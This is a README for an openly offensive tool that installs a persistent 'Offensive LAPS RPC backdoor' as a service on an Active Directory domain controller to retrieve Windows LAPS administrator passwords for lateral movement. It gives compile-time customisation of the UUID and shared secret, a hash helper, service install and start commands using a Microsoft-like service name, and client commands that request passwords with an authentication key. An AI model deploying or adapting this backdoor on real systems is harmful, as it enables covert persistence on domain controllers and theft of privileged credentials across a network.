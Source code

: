 # DecryptRecoveryLAPS_RPC

A way to maintain long-term access to Windows LAPS for lateral movement in AD via installing an Offensive LAPS RPC backdoor on a DC.

## Basic Usage

Compile the project optionally replacing:

1. The UUID in RPC IDL (default is `12345678-1234-1234-1234-1234567890ab`) in [Server.idl](/Server/Server.idl). A custom one can be generated with Python as `python -c 'import uuid; print(uuid.uuid4())'`.
2. The shared secret `SHARED_SECRET` (default is `0x78ec3379` which corresponds to `0123456789abcdef` authentication key) in [Server.cpp](/Server/Server.cpp). A custom one can be calculated with Python as:

```python
def djb2(s):
    h = 1337
    for x in s:
        h = ((h << 5) + h) + x
    return h & 0xFFFFFFFF

print(hex(djb2(list(bytearray.fromhex('0123456789abcdef')))))
# '0x78ec3379'
```

Install Offensive LAPS RPC backdoor as a service on a DC:

:warning: **The original `lapsutil.dll` must be put in the same directory with the Server binary!**

```console
Cmd > Server.exe -install
Cmd > sc start MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b
```

Request a Windows LAPS password providing the authentication key, the target computer DN and the DC IP or hostname:

```console
~$ python client.py -key <AUTH_KEY> <COMPUTER_DN> <DC_IP[:PORT]>
~$ python client.py -key 0123456789abcdef 'CN=PC01,OU=Computers,DC=contoso,DC=local' 127.0.0.1:31337
```

## Debug Launch

```console
Cmd > Server.exe -console
Cmd > Client.exe <DC_IP[:PORT]> <AUTH_KEY> <COMPUTER_DN>
Cmd > Client.exe 127.0.0.1:31337 0123456789abcdef "CN=PC01,OU=Computers,DC=contoso,DC=local"
```

## References

- [Get-LapsADPassword (LAPS) | Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword?view=windowsserver2025-ps#parameters)
- [LAPS 2.0 Internals - XPN InfoSec Blog](https://blog.xpnsec.com/lapsv2-internals/)
